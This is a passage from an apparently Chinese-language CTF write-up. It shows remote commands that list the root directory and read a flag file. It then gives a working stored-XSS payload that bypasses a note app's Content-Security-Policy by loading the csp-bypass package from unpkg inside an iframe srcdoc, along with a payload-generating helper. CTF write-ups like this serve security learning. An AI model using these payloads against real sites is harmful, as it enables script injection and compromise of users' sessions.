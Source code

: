 ```python=
print(run_command("ls /"))
```

![image](https://hackmd.io/_uploads/HkeXdDOwp.png)

flag 名稱叫做 `/flag2-1PRmDsTXoo3uPCdq.txt`。

```python=
print(run_command("cat /flag2-1PRmDsTXoo3uPCdq.txt"))
```

以下為取得 flag 的畫面：

![image](https://hackmd.io/_uploads/r1e1yuwODp.png)

## Note - FLAG1

Flag：`FLAG{byp4ss1ing_csp_and_xsssssssss}`

從 `app.py` 中可以得知 CSP 的限制，有白名單可以利用：

```python!
response.headers['Content-Security-Policy'] = "default-src 'self'; style-src 'unsafe-inline'; script-src 'self' https://unpkg.com/"
```

從 `note.js` 可以得知筆記內容是以 `marked.parse(result.content)` 後，寫入 `div` 的 innerHTML；這樣的寫法並不能讓被寫入的 `<script>` 被執行：

```javascript=
note.innerHTML = `
<h1>${result.title}</h1>
<p>${marked.parse(result.content)}</p>
<hr/>
<span style="color: #999">
    By @${result.author}・🔒 Private・
    <form action="/report" style="display: inline" method="post">
        <input type="hidden" name="note_id" value="${noteId}">
        <input type="hidden" name="author" value="${result.author}">
        <input type="submit" value="Report">
    </form>
</span>
`;
```

但使用 `<iframe>` 的 `srcdoc` 可以生成 HTML tag，若用它生出 `<script>` tag，是會被執行的；配合 `https://unpkg.com` 上的 `csp-bypass` package，我們可以針對每個 script，去做出以下 note content：

```python=
def script_to_html(script):
    return f"<iframe srcdoc=\"<br csp='{script}'><script src='https://unpkg.com/csp-bypass/dist/sval-classic.js'></script>\"></iframe>"
```

舉例來說，建立一個有以下內容的 note，便能在瀏覽器上看到 `alert` 的結果：

```htmlembedded=
<iframe srcdoc="<br csp='alert(8888)'><script src='https://unpkg.com/csp-bypass/dist/sval-classic.js'></script>"></iframe>
```
